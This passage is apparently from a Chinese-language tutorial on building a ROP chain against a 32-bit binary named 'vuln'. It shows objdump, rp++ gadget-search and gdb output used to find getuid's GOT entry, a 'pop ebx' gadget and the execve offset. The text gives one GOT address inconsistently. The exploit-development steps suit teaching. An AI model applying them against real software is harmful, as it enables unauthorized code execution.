 -Gadget 2: 确保EBX中含有getuid的GOT表项。getuid的GOT表项(如下所示)位于0x8041004处。因此，EBX必须要读入0x804a004, 但是在add gadget中一个常量(0x5d5b04c4)添加到了EBX中，我们就从EBX中减去那个常量： ebx =0x804a004 -0x5d5b04c4 = 0xaaa99b40。 现在我们需要找到一个gadget用来将这个值(0xaaa99b40)拷贝到EBX寄存器中。  
  
``` bash
$ objdump -R vuln
vuln: file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE 
08049ff0 R_386_GLOB_DAT __gmon_start__
0804a000 R_386_JUMP_SLOT printf
0804a004 R_386_JUMP_SLOT getuid
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
太棒了！ 我们找到一个’pop gadget’! 因此，在将值(0xaaa99b40)push到栈中之后，再返回到“pop EBX”指令，EBX中就有了0xaaa99b40.  

-Gadget 3: 确保EAX含有偏移差。 我们需要找到一个gadget将偏移差拷贝到EAX寄存器中。  

```
$ gdb -q vuln
...
(gdb) p execve
$1 = {} 0xb761a1f0 
(gdb) p getuid
$2 = {} 0xb761acc0 
(gdb) p/x execve - getuid
$4 = 0xfffff530
(gdb) 
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x080484a3: popl %ebp ; ret ; (1 found)
0x080485cf: popl %ebp ; ret ; (1 found)
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```